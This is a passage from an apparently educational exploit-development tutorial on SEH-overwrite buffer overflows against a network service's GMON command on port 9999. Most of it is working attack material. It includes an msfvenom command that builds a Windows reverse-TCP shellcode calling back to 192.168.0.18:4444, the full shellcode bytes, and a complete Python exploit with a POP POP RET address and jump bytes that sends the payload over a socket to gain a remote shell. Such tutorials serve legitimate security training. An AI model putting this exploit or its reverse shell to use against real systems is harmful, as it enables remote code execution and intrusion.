    fd.sendall(PAYLOAD)
----

And check it:

Great! All that's left is to insert a shellcode. Let's do that.

== Getting shell

We cat create a reverse shellcode using `msfvenom` from Metasploit, using:

[source,bash]
----
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=seh -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1807 bytes
SHELL =  b""
SHELL += b"\xba\x26\x9f\x12\x98\xda\xda\xd9\x74\x24\xf4\x58"
SHELL += b"\x33\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x76"
SHELL += b"\x91\xf0\x6d\x8a\x45\x76\x8d\x72\x96\x17\x07\x97"
SHELL += b"\xa7\x17\x73\xdc\x98\xa7\xf7\xb0\x14\x43\x55\x20"
SHELL += b"\xae\x21\x72\x47\x07\x8f\xa4\x66\x98\xbc\x95\xe9"
SHELL += b"\x1a\xbf\xc9\xc9\x23\x70\x1c\x08\x63\x6d\xed\x58"
SHELL += b"\x3c\xf9\x40\x4c\x49\xb7\x58\xe7\x01\x59\xd9\x14"
SHELL += b"\xd1\x58\xc8\x8b\x69\x03\xca\x2a\xbd\x3f\x43\x34"
SHELL += b"\xa2\x7a\x1d\xcf\x10\xf0\x9c\x19\x69\xf9\x33\x64"
SHELL += b"\x45\x08\x4d\xa1\x62\xf3\x38\xdb\x90\x8e\x3a\x18"
SHELL += b"\xea\x54\xce\xba\x4c\x1e\x68\x66\x6c\xf3\xef\xed"
SHELL += b"\x62\xb8\x64\xa9\x66\x3f\xa8\xc2\x93\xb4\x4f\x04"
SHELL += b"\x12\x8e\x6b\x80\x7e\x54\x15\x91\xda\x3b\x2a\xc1"
SHELL += b"\x84\xe4\x8e\x8a\x29\xf0\xa2\xd1\x25\x35\x8f\xe9"
SHELL += b"\xb5\x51\x98\x9a\x87\xfe\x32\x34\xa4\x77\x9d\xc3"
SHELL += b"\xcb\xad\x59\x5b\x32\x4e\x9a\x72\xf1\x1a\xca\xec"
SHELL += b"\xd0\x22\x81\xec\xdd\xf6\x06\xbc\x71\xa9\xe6\x6c"
SHELL += b"\x32\x19\x8f\x66\xbd\x46\xaf\x89\x17\xef\x5a\x70"
SHELL += b"\xf0\xd0\x33\x7a\x12\xb9\x41\x7a\x03\x65\xcf\x9c"
SHELL += b"\x49\x85\x99\x37\xe6\x3c\x80\xc3\x97\xc1\x1e\xae"
SHELL += b"\x98\x4a\xad\x4f\x56\xbb\xd8\x43\x0f\x4b\x97\x39"
SHELL += b"\x86\x54\x0d\x55\x44\xc6\xca\xa5\x03\xfb\x44\xf2"
SHELL += b"\x44\xcd\x9c\x96\x78\x74\x37\x84\x80\xe0\x70\x0c"
SHELL += b"\x5f\xd1\x7f\x8d\x12\x6d\xa4\x9d\xea\x6e\xe0\xc9"
SHELL += b"\xa2\x38\xbe\xa7\x04\x93\x70\x11\xdf\x48\xdb\xf5"
SHELL += b"\xa6\xa2\xdc\x83\xa6\xee\xaa\x6b\x16\x47\xeb\x94"
SHELL += b"\x97\x0f\xfb\xed\xc5\xaf\x04\x24\x4e\xd1\xf5\xf4"
SHELL += b"\x5b\x46\xac\x6d\x26\x0a\x4f\x58\x65\x33\xcc\x68"
SHELL += b"\x16\xc0\xcc\x19\x13\x8c\x4a\xf2\x69\x9d\x3e\xf4"
SHELL += b"\xde\x9e\x6a"
----

And with that, we can have the final exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=seh -f python -v SHELL -b '\x00'
SHELL =  b""
SHELL += b"\xba\x26\x9f\x12\x98\xda\xda\xd9\x74\x24\xf4\x58"
SHELL += b"\x33\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x76"
SHELL += b"\x91\xf0\x6d\x8a\x45\x76\x8d\x72\x96\x17\x07\x97"
SHELL += b"\xa7\x17\x73\xdc\x98\xa7\xf7\xb0\x14\x43\x55\x20"
SHELL += b"\xae\x21\x72\x47\x07\x8f\xa4\x66\x98\xbc\x95\xe9"
SHELL += b"\x1a\xbf\xc9\xc9\x23\x70\x1c\x08\x63\x6d\xed\x58"
SHELL += b"\x3c\xf9\x40\x4c\x49\xb7\x58\xe7\x01\x59\xd9\x14"
SHELL += b"\xd1\x58\xc8\x8b\x69\x03\xca\x2a\xbd\x3f\x43\x34"
SHELL += b"\xa2\x7a\x1d\xcf\x10\xf0\x9c\x19\x69\xf9\x33\x64"
SHELL += b"\x45\x08\x4d\xa1\x62\xf3\x38\xdb\x90\x8e\x3a\x18"
SHELL += b"\xea\x54\xce\xba\x4c\x1e\x68\x66\x6c\xf3\xef\xed"
SHELL += b"\x62\xb8\x64\xa9\x66\x3f\xa8\xc2\x93\xb4\x4f\x04"
SHELL += b"\x12\x8e\x6b\x80\x7e\x54\x15\x91\xda\x3b\x2a\xc1"
SHELL += b"\x84\xe4\x8e\x8a\x29\xf0\xa2\xd1\x25\x35\x8f\xe9"
SHELL += b"\xb5\x51\x98\x9a\x87\xfe\x32\x34\xa4\x77\x9d\xc3"
SHELL += b"\xcb\xad\x59\x5b\x32\x4e\x9a\x72\xf1\x1a\xca\xec"
SHELL += b"\xd0\x22\x81\xec\xdd\xf6\x06\xbc\x71\xa9\xe6\x6c"
SHELL += b"\x32\x19\x8f\x66\xbd\x46\xaf\x89\x17\xef\x5a\x70"
SHELL += b"\xf0\xd0\x33\x7a\x12\xb9\x41\x7a\x03\x65\xcf\x9c"
SHELL += b"\x49\x85\x99\x37\xe6\x3c\x80\xc3\x97\xc1\x1e\xae"
SHELL += b"\x98\x4a\xad\x4f\x56\xbb\xd8\x43\x0f\x4b\x97\x39"
SHELL += b"\x86\x54\x0d\x55\x44\xc6\xca\xa5\x03\xfb\x44\xf2"
SHELL += b"\x44\xcd\x9c\x96\x78\x74\x37\x84\x80\xe0\x70\x0c"
SHELL += b"\x5f\xd1\x7f\x8d\x12\x6d\xa4\x9d\xea\x6e\xe0\xc9"
SHELL += b"\xa2\x38\xbe\xa7\x04\x93\x70\x11\xdf\x48\xdb\xf5"
SHELL += b"\xa6\xa2\xdc\x83\xa6\xee\xaa\x6b\x16\x47\xeb\x94"
SHELL += b"\x97\x0f\xfb\xed\xc5\xaf\x04\x24\x4e\xd1\xf5\xf4"
SHELL += b"\x5b\x46\xac\x6d\x26\x0a\x4f\x58\x65\x33\xcc\x68"
SHELL += b"\x16\xc0\xcc\x19\x13\x8c\x4a\xf2\x69\x9d\x3e\xf4"
SHELL += b"\xde\x9e\x6a"

PAYLOAD = (
    b'GMON /.:/' +
    SHELL +
    b'A' * (3551 - 4 - len(SHELL)) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 2 +
    # JMP long backwards to the start of our 'A' buffer
    b'\xe9\x16\xf2\xff\xff' +
    b'C' * (1445 - 2 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Let's check it:



Our shell! We are getting good at it, aren't we?

== Conclusion

Exploiting applications using SEH overwriting is just a little different
than the simple EIP overwrite. However, you must take care of the little
details all the way down to get a successful exploitation.
